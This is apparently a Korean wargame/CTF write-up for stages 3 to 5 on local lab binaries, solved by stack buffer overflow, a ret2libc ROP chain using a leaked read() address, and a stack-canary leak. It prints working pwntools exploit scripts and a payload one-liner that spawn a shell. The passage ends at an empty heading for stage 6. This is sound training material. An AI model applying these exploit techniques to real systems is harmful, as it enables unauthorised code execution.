## 문제 3번(Stack BOF) {#problem-3}







먼저 똑같이 ls -al을 입력해서 파일들을 확인해 주었다.



stage3을 실행해보니 이렇게 메뉴별로 선택이 있었다.<br />대충 보니까 무기고? 관련 시스템 같다는 생각이 들었다.



하나씩 다 입력해본 결과 5번이 현재 비밀번호가 걸려있고, 4번을 누르니까 보호기법이 무엇인지 알려주는 것을 확인하였다.

```py
4번 해석

Canary 없음 → 스택 오버플로우 감지 장치 없음
PIE 없음 → 코드 주소 고정
실행 가능한 스택 → 스택에 넣은 셸코드 실행 가능
```

예상으로는 4번에 적혀있는 보호기법 등을 소스코드에서 취약한 부분을 찾아내서 비밀번호를 뚫어내는 것 같다고 생각이 들었다.



소스코드를 열어 Enter Password 글씨가 있는 곳을 검색해서 찾아 봤는데, 문자열을 지정을 했는데 scanf에서 그걸 받지 않아 BOF가 터질 수 있다는 것을 발견하였다.



그리고 추가로 목표로 잡을 함수도 위에 있다는 것을 알아낼 수 있었다.

그래서 이번 문제는 셸코드 삽입이 아닌 반환 주소를 shell() 함수로 바꾸면 문제를 해결할 수 있겠다고 생각하였다.

그래서 바이너리를 분석한 후 코드를 짜서 실행을 하였다.

```py
(python3 -c 'import sys;sys.stdout.buffer.write(b"5\n"+b"A"*28+b"\xa6\x91\x04\x08\n")';cat)|./stage3
```



그래서 이렇게 간단하게 다음 단계로 가는 비밀번호를 얻을 수 있었다.

## 문제 4번(ROP) {#problem-4}





먼저 ls -al 명령어를 사용하여 문제들을 확인해 주었다.



이렇게 들어가 보니 stage4와 stage4.c 소스코드가 존재하는 것을 확인할 수 있었다.



먼저 stage4번을 실행해 봤는데 Welcome to the shop 화면으로 들어와지면서 1,2,3번 선택하는 창이 나온다.



차례대로 1,2,3번을 실행해본 결과이다.

그리고 핵심적인 부분은 2번을 눌렀을 때 나오게 되었는데, 2번을 눌렀을 때 어떠한 주소 값이 나오는 것을 확인할 수 있었다.

그래서 이 주소 값이 무엇을 가리키는 주소 값인지를 확인해 보기 위해서 소스코드, pwndbg를 보면서 알아보겠다.

less stage4.c 명령어로 소스코드를 들어간 뒤, /main을 쳐서 main 함수부터 확인해 주었다.



main부분을 보니까 핵심적인 부분을 볼 수 있었는데, char buf로 64byte의 공간을 입력해서 저장할 수 있는데 문제는 read할 때는 1024바이트의 공간을 볼 수 있다는 것이다.

그래서 입력 주소 뿐만 아니라 반환 주소까지 덮어서 공격이 가능하다는 사실을 깨닫게 되었다.

```c
printf("Address of freezer warehouse : %p\n", &read);
```

그리고 이 부분은 read()의 실제 메모리 주소를 출력하는 부분이다.<br />이를 이용해 실행할 때마다 달라지는 libc의 기준 주소를 계산할 수 있다.

이제 소스코드까지 본 후 공격의 흐름은 다음과 같다.

```c
2번 선택
→ read() 주소 획득
→ libc 기준 주소 계산
→ buf 오버플로우
→ 반환 주소에 ROP 체인 작성
→ system("/bin/sh") 실행
```



이제 read()의 주소를 얻은 후 : `0x7f6a699637d0`

이제 nano.py라는 python 파일을 만들어서 아래 익스 코드를 넣었다.

```c
from pwn import *

context.arch = "amd64"

p = process("./stage4")
elf = ELF("./stage4")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p.sendafter(b"stand : ", b"2X")
p.recvuntil(b"warehouse : ")
read_addr = int(p.recvline().strip(), 16)

libc.address = read_addr - libc.sym["read"]

rop = ROP(elf)
ret = rop.find_gadget(["ret"]).address
pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address

payload = b"A" * 88
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(elf.sym["MasterKey"])
payload += p64(libc.sym["system"])

p.send(payload)
p.interactive()
```

scanf()가 메뉴 번호 2를 읽고 X에서 숫자 입력을 종료하도록 한다.<br />이후 프로그램이 출력한 read() 주소로 libc 기준 주소를 계산하고, system("/bin/sh")을 호출하는 ROP 페이로드를 전송하는 익스플로잇 코드이다.

이제 실행하면 정상적으로 셸이 열리게 된다.



이렇게 셸이 열린 후, id 명령어와 status 명령어를 사용하여 다음으로 넘어갈 비밀번호를 획득한다.



## 문제 5번(BOF + ROP) {#problem-5}





이제 이번에도 ls -al을 사용해서 좀 더 정확하게 확인을 해보았다.



보니까 ips라는 실습 코드와 ips.c라는 소스코드가 존재하는 것을 확인하였다.



ips를 실행해 보니까 id와 pw를 알아야 하는 문제라고 생각하였다.<br />(아니면 우회해서 넘어가거나)

일단 먼저 어떤 방식인지는 알았으니 소스코드를 확인해 보았다.

소스코드를 확인하다가 main에는 별 이상이 없어서 위로 올라가는 도중 IPS 부분이 취약점이 존재한다는 것을 알게 되었다.





여기서 존재하는 핵심적인 취약점은 총 2개 존재한다.

```c
char username[50];
char passwd[50];

read(0, username, sizeof(struct auth));
read(0, passwd, sizeof(struct auth));
```

여기서 struct auth는 100바이트를 가지고 있다.

```c
struct auth {
    char username[50];
    char passwd[50];
};
```

따라서 여기 username 부분이랑 passwd 부분에서 BOF가 발생한다는 뜻이다.

두 번째 취약점은

```c
strncmp(passwd, auth->passwd, sizeof(auth))
```

여기서 auth는 구조체가 아니라 포인터이다.<br />64비트 포인터의 크기는 8바이트이므로 비밀번호 전체가 아니라 앞 8바이트만 비교하기 때문에 취약하다.

그래서 생각한 공격 방식은 아래와 같다.

```c
첫 번째 입력으로 스택 Canary 유출
→ 유출한 Canary를 페이로드에 다시 포함
→ passwd 버퍼의 반환 주소까지 덮기
→ 프로그램 내부의 system("/bin/sh") 코드로 반환
```

그리고 passwd 기준으로는 아래와 같다.

```c
passwd 시작
→ 56바이트
→ Canary 8바이트
→ saved RBP 8바이트
→ 반환 주소
```

이번에는 Canary가 있어서 바로 긴 문자열만 넣으면 stack smashing detected로 종료가 된다. <br />그래서 먼저 Canary 값을 유출하는 단계가 필요하다.

그래서 `nano exploit5.py`로 Python 코드를 만들고 아래 코드를 입력한다.

```c
from pwn import *

p = process("./ips")

p.sendafter(b"Username: ", b"A" * 100)
p.sendafter(b"Password: ", b"B" * 57)

p.recvuntil(b"Your account: ")
leak = p.recvn(128)
canary = b"\x00" + leak[121:128]

log.info("Canary: " + hex(u64(canary)))
p.sendafter(b"Username: ", b"x\n")
p.sendafter(b"Password: ", b"x\n")

payload = b"A" * 56
payload += canary
payload += b"B" * 8
payload += p64(0x401981)

p.sendafter(b"Username: ", b"x\n")
p.sendafter(b"Password: ", payload + b"\n")

p.interactive()
```

첫 입력으로 Canary를 유출한 뒤, 마지막 입력에서 Canary를 복원하고 반환 주소를 system("/bin/sh") 코드로 덮어 셸을 실행하는 코드이다.



코드를 실행하면 이렇게 정상적으로 셸이 열린 것을 볼 수 있었고, id/status 명령어를 입력하니 정상적으로 다음으로 가는 비밀번호를 얻을 수 있었다.

## 문제 6번(Canary + BOF) {#problem-6}

